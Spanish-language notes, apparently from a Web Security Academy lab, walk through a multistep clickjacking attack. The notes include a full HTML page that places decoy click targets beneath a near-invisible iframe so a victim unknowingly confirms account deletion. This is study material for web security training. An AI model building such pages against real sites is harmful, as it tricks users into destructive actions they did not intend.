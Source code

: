 
## Objetivo:

![[Pasted image 20240609213836.png]]

## Solucion:

Iniciar sesion con nuestra cuenta.

Vemos que la funcionalidad de eliminar cuenta ahora contiene un cuadro de confirmacion...

![[Pasted image 20240609213928.png]]

![[Pasted image 20240609213936.png]]


Intentaremos crear un "exploit" para que la victima tenga que pulsar en esos lugares de alguna manera...

El exploit se veria de la siguiente manera:

```
<!DOCTYPE html>

<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Document</title>

<style>

iframe {

width: 1000px;

height: 700px;

position: relative;

z-index: 2;

opacity: 0.3;

}

  

.first, .next {

position: absolute;

z-index: 1;

}

  

.first {

top: 515px;

left: 45px;

}

  
  

.next {

top: 315px;

left: 200px;

  

}

</style>

  

</head>

<body>

  

<div class="first">Click me first</div>

<div class="next">Click me next</div>

<iframe src="https://0aaa004c03bea19b829d88c900e300dc.web-security-academy.net/my-account"></iframe>

</body>

</html>
```

![[Pasted image 20240609214426.png]]

![[Pasted image 20240609214435.png]]

Ahora mas de lo mismo, cambiar el opacity del iframe a 0.000001, guardar y enviar a la victima...

![[Pasted image 20240609214530.png]]

